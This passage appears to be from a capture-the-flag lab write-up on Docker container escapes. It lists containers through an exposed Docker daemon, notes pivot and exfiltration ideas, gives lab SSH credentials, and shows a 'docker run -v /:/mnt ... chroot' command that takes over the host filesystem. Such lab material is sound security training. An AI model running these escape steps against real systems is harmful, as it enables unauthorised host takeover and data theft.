 Let's execute commands now! `docker -H tcp://10.10.44.139:2375 ps`

```bash
63b932f4d7d2   privileged-container   "/usr/sbin/sshd -D"      6 months ago   Up 2 hours   0.0.0.0:2244->22/tcp     musing_stonebraker
2b28b54f56f6   namespaces             "/usr/sbin/sshd -D"      6 months ago   Up 2 hours   0.0.0.0:2255->22/tcp     goofy_diffie
3d8fe1db6635   container-socket       "/usr/sbin/sshd -D"      6 months ago   Up 2 hours   0.0.0.0:2233->22/tcp     brave_mendel
fd1d7cc1b972   registry:2             "/entrypoint.sh /etc…"   6 months ago   Up 2 hours   0.0.0.0:5000->5000/tcp   registry_example-registry_1
c5bd077f9ddb   registry:2             "/entrypoint.sh /etc…"   6 months ago   Up 2 hours   0.0.0.0:7000->5000/tcp   registry_actual-registry-1_1
```

# Useful Commands

1. network ls - Used to list the networks of containers, we could use this to discover other applications running and pivot to them from our machine!
2. images - List images used by containers, data can also be exfiltrated by reverse-engineering the image.
3. exec - Execute a command on a container
4. run	- Run a container

# Escape via Exposed Docker Daemon

For this task, we're going to assume that we have managed to gain a foothold onto the container from something such as a vulnerable website running in a container.

1. Connecting to the container: SSH credntials `danny`:`danny` Port 2233
2. Looking for the exposed Docker socket
Armed with the knowledge we've learnt about the Docker socket in "Vulnerability #4: RCE via Exposed Docker Daemon", we can look for exposure of this file within the container, and confirm whether or not the current user has permissions to run docker commands with groups.

```bash
cd /var/run
ls -la | grep sock
srw-rw---- 1 root docker    0 May 20 13:41 docker.sock
groups
danny docker
```

3. Mount host volumes
In the instance of this room, I have already downloaded the "alpine" image to the container that you are exploiting. In a THM room, you will most likely have to upload this image to the container before you can execute it, as Instances do not deploy with an internet connection. Now that we've confirmed we can execute Docker commands, let's mount the host directory to a new container and then connect to that to reveal all the data on the host OS! `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

# Shared Namespaces
